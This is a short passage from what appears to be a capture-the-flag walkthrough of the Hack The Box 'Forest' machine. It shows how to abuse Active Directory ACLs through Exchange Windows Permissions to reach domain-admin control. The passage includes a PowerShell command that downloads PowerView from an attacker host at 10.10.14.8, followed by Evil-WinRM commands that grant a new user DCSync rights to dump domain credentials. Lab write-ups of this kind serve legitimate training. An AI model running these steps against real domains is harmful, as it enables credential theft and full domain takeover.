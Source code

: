 ### Attack Vectors

- Adding Yourself to Domain Admins:
- The most direct and devastating attack.
- You can modify the DACL of the Domain Admins group to add your own user account.   

This grants you full administrative control over the domain.   

![forest-2](../../../assets/images/forest-2.png)

The above commands created a new user ``Bob`` and added it to the ``Exchange Windows Permissions`` groups

Imported the ``PowerView`` module
```powershell
powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8:8000/PowerView.ps1', 'C:\Users\svc-alfresco\Documents\PowerView.ps1')"
```

After inporting ``PowerView.ps1`` Run the below commands to add the New users Object and Password and get him ``DCSync`` right

```powershell

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\Bob', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity Bob -Credential $cred -Rights DCSync
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
Now we can now run ``SecretDump`` to dump all the Domain Credentials

